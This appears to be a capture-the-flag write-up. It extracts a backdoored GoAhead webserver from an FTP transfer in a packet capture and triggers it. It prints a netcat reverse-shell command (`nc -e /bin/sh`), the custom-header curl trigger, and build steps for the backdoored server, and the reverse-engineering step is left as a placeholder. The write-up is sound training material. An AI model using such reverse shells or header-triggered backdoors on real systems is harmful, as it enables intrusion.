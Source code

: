# Finale part 1

**1000 points**

We intercepted a data transfer from Agent Smith. What's he up to now?

Find out what he has done, and try to prevent whatever his evil scheme might be.

[Download PCAP](transfer.pcapng)

### Exploiting
We're given a PCAP file, so it's time to use some wireshark magic!

We can see a FTP file transfer
![](pics/wireshark1.png)

Thankfully, Wireshark makes it easy for us to piece together the data transferred.
Right-click one of the FTP-data packets and click `Follow TCP Stream`.
![](pics/wireshark2.png)

Now we can dump the transfer as raw data!
![](pics/wireshark3.png)

Let's check what's been transferred.

```
$ file dump
dump: gzip compressed data, last modified: Fri Apr  3 23:18:02 2015, from Unix
$ tar xvf dump
goahead
libgo.so
```

The transfer was a gzip archive with two files inside, `goahead` and `libgo.so`.
Googling `goahead` reveals that it's a webserver.


**Insert Aleksi magic here**

The webserver forks and calls execve to run `nc` with the following arguments:
`nc -e /bin/sh <ip> <port>`

The server will connect back to our IP address on the port supplied as the header value. Let's do some testing!

Start up netcat in listening mode:

`nc -l -p 1337 -v`

Send the custom HTTP header:

`curl --header "allow-backdoor: 1337" 127.0.0.1`

Tada! Now we have access to CERN Time Continuum Shell!

```
* FOR CLASSIFIED PERSONELL ONLY! *

Welcome to CERN Time Continuum Shell
Please resize your terminal to 80x25 for the optimal time travelling experience.

CERN TIMECTRL> help
Available commands:
  travel
  history
  help
  exit

CERN TIMECTRL> history
Last Command:
00:31 04/04/15: travel 2001 april 11

CERN TIMECTRL> travel
ERROR: wrong syntax
usage: travel <year> <month> <day>

CERN TIMECTRL> travel 2001 april 11
Warning: Experimental feature

         ARE YOU SURE? (y/n) y

Starting Dark Matter Collector      [*]
Starting Time Dilation Engine       [*]
Starting Warp Drive                 [*]
Locating Closest Worm Hole          [*]
Reticulating Splines                [*]
Entering Coordinates                [*]
Engaging Forcefield                 [*]
Creating Time Continuum Vortex      [*]

Time Shift in:  3... 2... 1...
```

Try it yourself to see the awesome ending screen.

### Compiling and running goahead
If you want to test the backdoored webserver yourself, do something like this:

1. `$ git clone git@github.com:embedthis/goahead.git`
2. `$ patch -p1 < backdoor.patch`
3. `$ make && sudo make install`
4. `$ sudo goahead -v --home /etc/goahead /var/www/goahead`
